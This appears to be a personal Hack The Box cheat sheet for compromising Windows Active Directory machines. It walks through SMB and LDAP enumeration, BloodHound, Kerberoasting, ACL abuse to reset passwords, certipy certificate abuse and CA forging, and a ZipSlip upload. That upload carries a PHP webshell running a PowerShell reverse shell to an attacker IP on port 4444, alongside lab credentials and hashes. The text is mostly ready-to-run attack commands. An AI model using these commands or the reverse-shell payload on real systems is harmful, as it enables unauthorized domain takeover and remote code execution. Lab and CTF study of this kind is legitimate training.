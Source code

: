 ## This is for the windows targets:
Ports to pay attention:
445 SMB
389 LDAP
1433 MSSQL

normally you will get some creds for win machines.
You should try them to find what they are for


**enumeration:**

gobuster dir -u "http://name.htb" -w /usr/share/wordlists/seclists/Discovery/Web-Content/dire....txt -t 100 -x php (windows usually use php files)


1) netexec ldap <targetIP> -u <username> -p <password>
and you will get smb and ldap confirmation

2) nxc smb <TargetIP> -u '<username>' -p '<password>' --shares
and you getw all the smb shares

3) crackmapexec smb <targetIP> -u <username> -p <password> --users or --computers

and now you get the info you wanted:

1) smbclient -L //targetip -U <username>
and then
2) smbclient //targetip -U <username>
>ls
and you get the files
3)

Then use bloodhund to find the connections and then use impacet tools.

---------------------------------------------------------------------------------------------------------
## An all around windows check guide

1. you do the normal scans (nmap for tcp and udp, rustscan)
2. 


---------------------------------------------------------------------------------------------------------
1. crackmapexec smb xx.xx.xx.xx -u levi.james -p 'KingofAkron2025!' --users                          (the creds are given)
2. nxc smb PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' --rid-brute | grep "SidTypeUser" | awk -F '\\' '{print
$2}' | awk '{print $1}' > users.txt                                                      (just creates a .txt with all users)

3. use bloodhound to see all the connections
4. if your user has "GenericWrite" at someone else you can change his password
5. crackmapexec smb xx.xx.xx.xx -u levi.james -p 'KingofAkron2025!' --shares
6. smbclient \\\\xx.xx.xx.xx\\DEV -U "levi.james"
7. try dir and get filename

bloodyAD -u ant.edwards -p 'Antman2025!' -d puppy.htb --dc-ip <ip> set password adam.silver 'abc@123'

save into modify.ldif

dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512

ldapmodify -x -H ldap://10.10.11.70 -D "ant.edwards@puppy.htb" -w 'Antman2025!' -f modify.ldif

evil-winrm -i 10.10.11.70 -u 'ADAM.SILVER' -p 'abc@123'


----------------------------------------------------------------------------------------------------------------------
**Bloodhound is a must!** with creds
1. bloodhound-python -u name -p password -d domain.htb -ns ip -c all --zip
The next part is different everytime
2. If you have **WriteSPN**:
    you need this: https://github.com/ShutdownRepo/targetedKerberoast (git clone it) \n
   a. ntpdate -u IP
   b. faketime "2025-06-09 16:22:00" python3 targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!' --dc-ip 10.10.11.72
   c. hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
  If you have **AddSelf**:
   a. nano randomname.ldif
     dn: CN=<thetargetname>,CN=Users,DC=<domain>,DC=htb
     changetype: modify
     add: member
     member: CN=<targetuser>,CN=Users,DC=<domain>,DC=htb
   b. ldapmodify -x -D "domain\targetusername" -w <password> -H ldap://ip -f randomname.ldif
  If you have **ReadGMSAPassword**:
   a. git clone : https://github.com/micahvandeusen/gMSADumper
   b. python3 gMSADumper.py -u name -p password -l ip -d domain.htb
   and you will get a hash but you cant crack it yet.
  If you have **ForcechangePassword**:
   a. bloodyAD -u 'userfrombefore$' -p ':1c37d00093dc2acf25a7z7f2d471fake4afdcthehashfrombefore' -d domain.htb --dc-ip ip set password sanm 'Password123!'
  If you have **WriteOwner**:
   a. impacket-owneredit -action write -new-owner 'sam' -target 'john' 'domain/sam:Password123!' -dc-ip ip
   b. impacket-dacledit -action 'write' -rights 'FullControl' -principal 'sam' -target-dn "CN=john,CN=Users,DC=domainname,DC=htb" 'domainname.htb/sam:Password123!' -dc-ip ip
   c. bloodyAD -d domainanme.htb -u 'sam' -p 'Password123!' --dc-ip ip set password john 'NewPa$$word'
   d. evil-winrm -i ip -u john -p 'NewPa$$word'


----------------------------------------------------------------------------------------------------------------------
1. sudo rdate -n 10.10.11.69  (windows machinesusually need to have the same time as target)
if this doesnt stay try: faketime

2. sudo responder -I tun0 -v
and
smbclient //targetip/IT -U <name>%<password> -c "put <filename>"    to upload a file at smb with write prev

ntpdate -u "ip"

faketime '2025-05-27 20:41:00' certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc

export KRB5CCNAME=ca_svc.ccache

 faketime '2025-05-27 20:43:00' certipy-ad account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -user 'ca_svc' read

faketime '2025-05-27 20:43:00' certipy-ad account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -upn 'administrator' -user 'ca_svc' update

faketime '2025-05-27 20:44:00' certipy-ad req  -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'

faketime '2025-05-27 20:45:00' certipy-ad account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update


faketime '2025-05-27 20:46:00' certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'domain.htb' -dc-ip targetIP

evil-winrm -i targetIP -u administrator -H 'hash' 

-------------------------------------------------------------------------------------------------------------------------------------------------------
(NO CREDS WINDOWS MACHINE)
1. you need good enumeration + create an account at the website:
   gobuster dir ....... +x php   (windows site usually have .php files)
   ffuf ...... 
2. add---> echo '10.10.11.xx name.htb DC01.name.htb' | sudo tee -a /etc/hosts
3. if you found something like ..../upload.php?s_id=1
   try fuzzing it with ffuf or burpsuite
find the right id and there you will find a website that you can upload zip file

4. ZipSlip  (it allows attackers upload a zip file which has a legit file.pdf adn then your malware)
a) echo "hi" > legit.pdf
b) zip legit.zip legit.pdf
c) nano shell.php and put inside this:
  <?php
shell_exec("powershell -nop -w hidden -c \"\$client = New-Object System.Net.Sockets.TCPClient('YOURIP',4444); \$stream = \$client.GetStream(); [byte[]]\$bytes = 0..65535|%{0}; while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){; \$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0,\$i); \$sendback = (iex \$data 2>&1 | Out-String ); \$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> '; \$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2); \$stream.Write(\$sendbyte,0,\$sendbyte.Length); \$stream.Flush()}; \$client.Close()\"");
?>

and do: zip mal.zip shell.php
and: cat legit.zip mal.zip > combined.zip
and upload this zip

d) nc -lvnp 4444
e) then go where this file has saved, meybe: ..../uploads/shell.php

5. now you have a rce as xamppuser. Try to find usefull files like databases and hashes.
use type filename
6. if you find hashes try:
hashcat -a 0 -m hashid -w /usr/share/wordlists/rockyou.txt
7. and log in with evilrm to thuis account and then use bloodhound to find the connections
8. usually you will be able to change a password with:
net rpc password "targetname" "newP@ssword2022" -U "domainanme.htb"/"yourusername"%"thecodeyoufoundfromhash" -S domainanmeagain.htb        (all this on your machine)

9. and this user will have soem rights. you can check with bloodhound and then try to login with evilrm and try:
whoami /priv

if you found seManageVolumePrivilege: then you have the rights to manage The file system like C.
it has the exploit: https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public
you dowenload this .exe file at your pc
and then you evilrm at the user fro mthis directory and press: upload .....exe

10. now you run it there: .\SeManageVolumeExploit.exe

and this user now has full control over C
Your target is the Certification authorities CA
11. certutil -exportPFX my "domainanme-LTD-CA" C:\Users\Public\ca.pfx
12. go at the download file at \Public ---> cd Public

13. download ca.pfx    ( PFX IS THE TYPE THAT CA ARA STORED)
14. then at your pc forge a fake administrator.pfx:
   certipy-ad forge -ca-pfx ca.pfx -upn 'administrator@domainanme.htb' -subject 'CN=Administrator,CN=Users,DC=domainanme,DC=htb' -out forged_admin.pfx

15. and now abuse ceripy to auth this ca with kerberos tgt:
certipy-ad auth 0pfx forged_admin.pfx -dc-ip 10.10.11.x -username 'administrator' -domain 'domainanme.htb'

16. You are ready to connect with evil-winrm:
evil-winrm -i 10.10.11.x -u administrator -H'd803303515bf814ac14c5f1702abh866....'


